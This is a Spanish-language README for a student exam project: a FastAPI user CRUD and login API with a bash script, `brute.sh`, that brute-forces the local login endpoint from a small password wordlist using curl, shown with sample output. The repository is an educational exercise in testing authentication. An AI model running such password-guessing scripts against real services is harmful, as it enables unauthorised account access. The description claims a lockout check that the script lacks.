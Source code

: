 # Practical Term Exam

Este repositorio contiene una API REST (FastAPI) para manejo básico de usuarios (CRUD) y autenticación. Incluye un script `brute.sh` pensado para pruebas locales (simula intentos de login).

---

## Contenido del repositorio

- `main.py` — implementación FastAPI con modelos en `sqlmodel` y almacenamiento en memoria (`users_db`).
- `brute.sh` — script bash que prueba múltiples contraseñas contra `http://127.0.0.1:8000/`.
- `requirements.txt` — dependencias: `fastapi`, `uvicorn`, `sqlmodel`.
- `.gitignore` — (recomendado) para evitar subir `venv/`, `__pycache__/`, etc.

---

## Estructura (actual)
```
practical-term-exam/
├── main.py
├── brute.sh
├── requirements.txt
└── (otros archivos opcionales)
```

## Requisitos y preparación

- **Python** 3.10+  
- **pip**
- **(Windows) Git Bash or WSL to run brute.sh**

Se recomienda crear un entorno virtual:

**Windows (PowerShell)**
``` bash
python -m venv venv
venv\Scripts\Activate.ps1
```
**Instalar dependencias**
``` bash 
pip install -r requirements.txt
```
**Cómo ejecutar la API**

Desde la raíz del proyecto, con el entorno virtual activado:
``` bash 
uvicorn main:app --reload --host 0.0.0.0 --port 8000
```
La API quedará accesible en: http://127.0.0.1:8000/

## ENDPOINTS DETECTADOS

- `GET /`  
  Root

- `POST /users`  
  Crear usuario — Body: `username`, `password`, `email?`, `is_active?`

- `GET /users`  
  Listar usuarios (devuelve datos "seguros" sin la contraseña)

- `GET /users/{user_id}`  
  Obtener usuario por id

- `PUT /users/{user_id}`  
  Actualizar usuario — Campos: `username`, `email`, `is_active`

- `DELETE /users/{user_id}`  
  Eliminar usuario

- `POST /login`  
  Login con `username` + `password`
  
  ## Ejemplo de login (body JSON)

```json
{ "username": "matias", "password": "matym123" }
````
## Respuesta satisfactoria actual
```json
{ "message": "login successful" }
```
## Respuesta por credenciales inválidas
```json
{ "message": "Invalid credentials" }
```
## Bruteforce / Script de prueba (`brute.sh`)

> **Advertencia:** Este script fue utilizado unicamente con fines educativos, hacer el mismo proceso con equipos de terceros seria considerado algo ilegal

### Versión final brute.sh

```bash
API="http://127.0.0.1:8000/login"
USER="matias"

WORDLIST=(matym123 hola123 adios546 arroz123 pollo123 loco456 hello123 maty123)

attempts=0
start=$(date +%s)

for pwd in "${WORDLIST[@]}"; do
  attempts=$((attempts+1))
  resp=$(curl -s -X POST "$API" \
    -H "accept: application/json" \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"$USER\",\"password\":\"$pwd\"}")
  echo "[$attempts] Probando '$pwd' -> $resp"
  if [[ "$resp" == *"login successful"* ]]; then
    end=$(date +%s)
    echo "ENCONTRADA: password='$pwd' en $attempts intentos, $((end-start))s"
    exit 0
  fi
  sleep 0.2
done

end=$(date +%s)
echo "NO encontrada tras $attempts intentos en $((end-start))s"
exit 1
```
## Cómo funciona `brute.sh`

`brute.sh` es un script de prueba pensado para entornos locales. Su objetivo es automatizar intentos de login usando una lista de contraseñas (wordlist) para comprobar la lógica de autenticación y bloqueo de la API.

**Resumen del flujo:**
1. Define la URL del endpoint de login (`API`) y el usuario objetivo (`USER`).
2. Define un `WORDLIST` con posibles contraseñas.
3. Recorre cada contraseña:
   - Envía una petición `POST` con `curl` al endpoint `/login`.
   - Lee la respuesta (JSON) y comprueba si contiene la cadena/valor que indica éxito (`"login successful"`) o si hay un campo de bloqueo (`retry_after`).
   - Muestra en consola el intento actual y el resultado parcial.
4. Si encuentra la contraseña correcta, muestra el tiempo total y termina. Si no la encuentra, informa que no se encontró tras todos los intentos.

**Variables importantes dentro del script:**
- `API` — URL del endpoint (ej. `http://127.0.0.1:8000/login`)
- `USER` — nombre de usuario objetivo
- `WORDLIST` — arreglo con las contraseñas a probar
- `attempts` — contador de intentos
- `start` / `end` — tiempo de inicio/fin para medir duración

**Advertencia:** usar solo en entornos locales y con cuentas de prueba. Hacer fuerza bruta contra sistemas de terceros es ilegal.

---

## Uso (rápido)

Dar permisos y ejecutar:
```bash
chmod +x brute.sh
./brute.sh
```
### Ejemplo de salida en consola

#### 1) Contraseña encontrada
```
[1] Probando 'matym123' -> {"message":"Invalid credentials"}
[2] Probando 'hola123' -> {"message":"Invalid credentials"}
[3] Probando 'adios546' -> {"message":"login successful"}
ENCONTRADA: password='adios546' en 3 intentos, 1s
```
#### 2) Contraseña no encontrada
```
[1] Probando 'matym123' -> {"message":"Invalid credentials"}
[2] Probando 'hola123' -> {"message":"Invalid credentials"}
[3] Probando 'adios546' -> {"message":"Invalid credentials"}
[4] Probando 'arroz123' -> {"message":"Invalid credentials"}
[5] Probando 'pollo123' -> {"message":"Invalid credentials"}
[6] Probando 'loco456' -> {"message":"Invalid credentials"}
[7] Probando 'hello123' -> {"message":"Invalid credentials"}
[8] Probando 'maty123' -> {"message":"Invalid credentials"}
NO encontrada tras 8 intentos en 2s
```

